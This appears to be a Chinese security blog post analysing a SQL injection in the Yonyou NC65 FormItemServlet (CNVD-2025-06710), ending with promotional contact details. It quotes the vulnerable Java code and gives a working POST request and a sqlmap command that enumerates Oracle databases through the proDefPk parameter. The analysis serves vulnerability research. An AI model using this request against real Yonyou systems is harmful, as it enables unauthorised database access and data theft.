 #  用友NC最新SQL注入 | CNVD-2025-06710漏洞分析  
原创 chobits02  C4安全   2025-07-08 08:05  
  
## 前言  
  
漏洞影响版本：用友NC65  
  
CNVD已知漏洞编号是重复时候给的编号，提交的稍微有些晚就重复了  
  
![](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTmRntVbgxfyzEMQfkfTlrax2y09zEsoCepywXvcv0cb7HAklwZTWfFhY5CicnygvV0oTbMVH6Y8vA/640?wx_fmt=png&from=appmsg "")  
  
不过该漏洞代码比较老，猜测现在才有人挖出来是因为代码里面有加载子类的方法，一般师傅可能觉得绕不过就放弃了，我直接照搬一下自己的漏洞分析文章：  
  
https://forum.butian.net/article/750  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/EXTCGqBpVJQbVxo0a4zRoVkIFaz2cKA5ib3aFe4hhtP7M1fg56N1OZyaxT5rh0EWanI3cO7VYruqSmYovEc9U6A/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
## 漏洞分析  
  
漏洞所在方法为FormItemServlet，利用POC如下  
```
POST /portal/pt/servlet/getFormItem/doPost?pageId=login&clazz=nc.uap.wfm.vo.base.ProDefBaseVO&proDefPk=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 19
```  
  
下面是漏洞分析，进入到FormItemServlet  
接口处，方法的完整路径为nc.uap.wfm.action.FormItemServlet  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTmRntVbgxfyzEMQfkfTlra09k6dMlibQpIXXPUh79WRz5OJc3mdkD6wIxbbe9qsBdnej3Bra5xmpw/640?wx_fmt=png&from=appmsg "")  
  
该方法的请求路径为前缀+/servlet/getFormItem/  
+对应方法名称  
  
来到doPost方法，完整的代码如下  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTmRntVbgxfyzEMQfkfTlrayfMetEBscyLLABBnsQx6Vt7pcZia6ic7nMreL29nSde84H030RJEPJ0g/640?wx_fmt=png&from=appmsg "")  
```
@Action(method = "POST")  
publicvoid doPost() {  
this.response.setCharacterEncoding("utf-8");  
this.response.setContentType("text/html");  
Writer out = null;  
out = new StringWriter();  
String clazz = this.request.getParameter("clazz");  
String pk_prodef = this.request.getParameter("proDefPk");  
Map<String, String> map = new HashMap<>();  
if (!StringUtils.isEmpty(clazz)) {  
  SuperVO formvo = (SuperVO)LfwClassUtil.newInstance(clazz);  
  IWfmFlwTypeQry service = (IWfmFlwTypeQry)NCLocator.getInstance().lookup(IWfmFlwTypeQry.class);  
  WfmFlwTypeVO flwtypevo = service.getFlwTypeVosByProdefPk(pk_prodef);  
if (flwtypevo != null) {  
String serverClass = flwtypevo.getServerclass();  
    IWfmFormOper formOper = (IWfmFormOper)WfmClassUtil.loadClass(serverClass);  
    map = formOper.getFormFields(formvo, pk_prodef);  
  }   
}   
Document doc = buildXml(map);  
XMLUtil.printDOMTree(out, doc, 0, "UTF-8");  
print(out.toString());  
}

```  
  
可以看到此处post方法接收了两个参数，一个是clazz  
，传入了方法中通过反射加载SuperVO  
类或是他的子类，所以他应该传的是完整的类路径  
```
SuperVO formvo = (SuperVO)LfwClassUtil.newInstance(clazz);  

```  
  
另外一个传参是proDefPk  
，在上一步类加载完成后，进入了WfmFlwTypeQry  
的getFlwTypeVosByProdefPk  
方法中  
```
IWfmFlwTypeQry service = (IWfmFlwTypeQry)NCLocator.getInstance().lookup(IWfmFlwTypeQry.class);  
WfmFlwTypeVO flwtypevo = service.getFlwTypeVosByProdefPk(pk_prodef);  

```  
  
追踪getFlwTypeVosByProdefPk方法，来到代码  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTmRntVbgxfyzEMQfkfTlraicNx5lEScxABibQnKY1VaEFb8oBgTVrkdT7DmibI2KPUwfg88vSegjrRA/640?wx_fmt=png&from=appmsg "")  
  
可以看到参数被拼接到SQL语句中，造成SQL注入  
```
String sql = " select * from wfm_flwtype where pk_flwtype in(select flwtype from wfm_prodef where pk_prodef='" + prodefPk + "')";

```  
  
好了分析到这已经差不多了，只要找一个SuperVO  
的子类让他正常加载走到SQL注入那一步就行了  
  
全局搜索SuperVO  
，这里我挑了一个子类ProDefBaseVO  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTmRntVbgxfyzEMQfkfTlraiaGA9t6L4rzuic9mIYHGnUEoDuxy1J7r4n0MFLHx3AQcodcqd6ib2Y6bA/640?wx_fmt=png&from=appmsg "")  
  
完整路径是nc.uap.wfm.vo.base.ProDefBaseVO  
，下一步构造传参，丢给SQLMAP验证即可  
```
POST /portal/pt/servlet/getFormItem/doPost?pageId=login&clazz=nc.uap.wfm.vo.base.ProDefBaseVO&proDefPk=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 19

```  
  
S  
QLMAP命令如下，指定数据库为Oracle  
```
python sqlmap.py -r 数据包 --dbms=oracle --dbs -p proDefPk

```  
  
注入验证  
  
![image.png](https://mmbiz.qpic.cn/mmbiz_png/EXTCGqBpVJTmRntVbgxfyzEMQfkfTlra67naERDqgn8DgsQqjPocp0Y4t2j2meFuUy2LRIxCmQKSXR8ITaSySQ/640?wx_fmt=png&from=appmsg "")  
  
最后总结  
  
感兴趣的可以公众号私聊我  
进团队交流群，  
咨询问题，hvv简历投递，nisp和cisp考证都可以联系我  
  
**内部src培训视频，内部知识圈，可私聊领取优惠券**  
  
**加入团队、加入公开群等都可联系微信：yukikhq，搜索添加即可。**  
  
****  
![图片](https://mmbiz.qpic.cn/mmbiz_gif/EXTCGqBpVJQSCTuiawtOw7G9JFaBeBc06sHdBhSTMMClOr5wLWmLYIl6Yry9n3ZIL97tylQib5YLOuJFxndeFMEg/640?wx_fmt=gif&from=appmsg&wxfrom=5&wx_lazy=1&tp=wxpic "")  
  
END  
###   
  
